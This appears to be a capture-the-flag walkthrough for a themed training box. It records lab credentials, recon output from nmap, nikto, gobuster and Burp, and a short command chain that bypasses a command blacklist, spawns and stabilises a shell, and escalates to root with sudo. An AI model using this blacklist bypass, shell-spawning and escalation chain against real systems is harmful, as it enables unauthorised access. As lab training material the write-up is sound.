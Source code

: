 
/login.php creds
username: R1ckRul3s, pw: Wubbalubbadubdub -> www-data

Repro steps:

nmap scan
enumerate with nikto after seeing port 80 is open
enumerate with dirbuster looking for php,sh,cgi,js,py,txt extensions found /login.php & /robots.txt
found username for login through page source and pw in /robots.txt
logged in to portal and found command execution 
blacklist on certain commands, bypassed with: while read line; do echo $line; done < FILE_NAME
\*found first ingredient in txt file: mr. meeseek hair
grep -R . to recursively echo the directory contents finding source code blacklist
python shell in comand execution box from pentest monkey
stabilised shell using:
    python -c 'import pty;pty.spawn("/bin/bash")'
    export TERM=xterm;
    ctrl + z
    stty raw -echo; fg
sudo -l shows we have permissions for all no password
sudo bash and pwned box
\*found third ingredient in root home: fleeb juice
found other users in /home
\*found 2 ingredient in Ricks home dir: 1 jerry tear


Recon:

- nmap  
results:
# Nmap 7.60 scan initiated Thu Oct 20 15:39:18 2022 as: nmap -sC -sV -oN nmap/initial 10.10.166.57
```
Nmap scan report for ip-10-10-166-57.eu-west-1.compute.internal (10.10.166.57)
Host is up (0.0010s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e6:16:44:69:43:da:6d:55:e9:57:bd:9c:d1:c8:ae:51 (RSA)
|   256 90:f9:a0:52:db:30:d4:ea:66:a6:3b:60:d5:a5:0b:d6 (ECDSA)
|_  256 c9:23:31:fb:06:ec:08:7b:88:24:29:11:00:ff:45:62 (EdDSA)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
MAC Address: 02:63:4F:F9:87:C9 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Oct 20 15:39:27 2022 -- 1 IP address (1 host up) scanned in 8.96 seconds 
```

- nikto
```
- Nikto v2.1.5
---------------------------------------------------------------------------
+ Target IP:          10.10.166.57
+ Target Hostname:    ip-10-10-166-57.eu-west-1.compute.internal
+ Target Port:        80
+ Start Time:         2022-10-20 15:47:09 (GMT1)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ Server leaks inodes via ETags, header found with file /, fields: 0x426 0x5818ccf125686 
+ The anti-clickjacking X-Frame-Options header is not present.
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ "robots.txt" retrieved but it does not contain any 'disallow' entries (which is odd).
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ Cookie PHPSESSID created without the httponly flag
+ OSVDB-3233: /icons/README: Apache default file found.
+ /login.php: Admin login page/section found.
+ 6544 items checked: 0 error(s) and 7 item(s) reported on remote host
+ End Time:           2022-10-20 15:47:17 (GMT1) (8 seconds)
---------------------------------------------------------------------------
```

- gobuster dir, wordlist big.txt:
/.htpasswd 403
/.htaccess 403
/assets 301
/server-status 403
/robots.txt

- gobuster dir -w directory-medium -x php,sh,cgi,js,py,txt
/login.php 200
/portal.php 302

- wappalyzer:
web server: Apache 2.4.18
JS libraries: jQuery 3.3.1
OS: Ubuntu
UI frameworks: Bootstrap 3.4.0

- page source:
username found: R1ckRul3s

- burp suite:
page response intercept:
HTTP/1.1 200 OK
Date: Thu, 20 Oct 2022 08:45:26 GMT
Server: Apache/2.4.18 (Ubuntu)
Last-Modified: Sun, 10 Feb 2019 16:37:33 GMT
ETag: "426-5818ccf125686-gzip"
Accept-Ranges: bytes
Vary: Accept-Encoding
Content-Length: 1062
Connection: close
Content-Type: text/html